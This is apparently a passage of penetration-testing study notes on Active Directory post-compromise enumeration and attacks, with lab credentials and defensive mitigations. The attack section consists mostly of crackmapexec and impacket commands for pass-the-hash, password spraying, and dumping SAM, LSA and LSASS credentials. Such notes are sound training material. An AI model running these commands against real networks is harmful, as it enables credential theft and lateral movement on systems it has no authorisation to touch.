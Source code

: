 * Mitigation : 
	* Block DHCPv6 traffic and incoming router advertisements.
	* Disable WPAD via Group Policy.
	* Enable both LDAP signing and LDAP channel binding.
	* Mark Admin users as Protected Users or sensitive accounts.

 * [Pass-Back attacks](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack) can be used for printer hacking.

# Post-Compromise Enumeration

* LdapDomainDump : 
  ``` 
  > sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle' -p Password1
  ```
  * Bloodhound
  ``` 
  > sudo neo4j console
  > sudo bloodhound (in another tab )
  > sudo bloodhound-python -d MARVEL.local -u THEPUNISHER -p Password1 -ns 192.168.1.22 -c all  (in another tab)
  ```

#  Post-Compromise Attacks
 * 1 -  Pass the Hash : 
 ```
  crackmapexec smb <ip> -u <username> -d <domain> -p <password>
  #sweep entire network
  #attempts to gain access via pass the password
  #can also spray passwords

  crackmapexec smb <ip/CIDR> -u <username> -d <domain> -H <hash> --local-auth
  #use a hash in place of a password

  crackmapexec smb <ip/CIDR> -u <username> -d <domain> -H <hash> --local-auth --sam
  #dump the sam 

   crackmapexec smb <ip/CIDR> -u <username> -d <domain> -H <hash> --local-auth --shares
   #enumerate the shares 

  crackmapexec smb <ip/CIDR> -u <username> -d <domain> -H <hash> --local-auth --lsa 
  #dump the lsa

crackmapexec smb <ip/CIDR> -u <username> -d <domain> -H <hash> --local-auth -M lsassy
  #dump the lsass 
  #store credentials 
  (> Cmedb #for the database)


  impacket-secretsdump <domain>/username:'password'@ip



 ```
- Mitigations:
    - Limit account reuse
    - Disable Guest and Administrator accounts
    - Use strong passwords
    - Privilege Access Management (PAM)
